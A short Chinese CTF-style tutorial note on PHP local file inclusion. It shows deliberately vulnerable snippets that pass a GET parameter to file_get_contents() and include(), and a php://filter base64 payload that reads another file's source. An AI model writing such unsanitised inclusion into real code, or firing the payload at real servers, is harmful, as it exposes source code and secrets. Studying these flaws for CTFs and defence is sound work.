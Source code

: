

xxx.php

<?php  
$filename=$_GET["a"];  
echo file_get_contents($filename);  
?>  


PHP file_get_contents() 函数

file_get_contents()的$filename参数不仅仅为文件路径，还可以是一个URL（伪协议）。

payload=http://127.0.0.1/xxx.php?a=php://filter/convert.base64-encode/resource=test.php

test.php的内容以base64编码的方式显示出来

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件包含/php伪协议/images/02BDE12FE4B24F0B8D0F9A0C1E51E73Ff36a6b7efc78.png)



xxx.php

<?php  
$filename=$_GET['a'];
$data="test test";
include("$filename");
?>


payload=http://127.0.0.1/xxx.php?a=php://filter/convert.base64-encode/resource=test.php

同样可以把test.php的内容以base64编码的方式显示出来

双引号包含的变量$filename会被当作正常变量执行，而单引号包含的变量则会被当作字符串执行。

例如：

<?php  
$aa=1;
echo "$aa";
echo "<br>";
echo '$aa';
?>
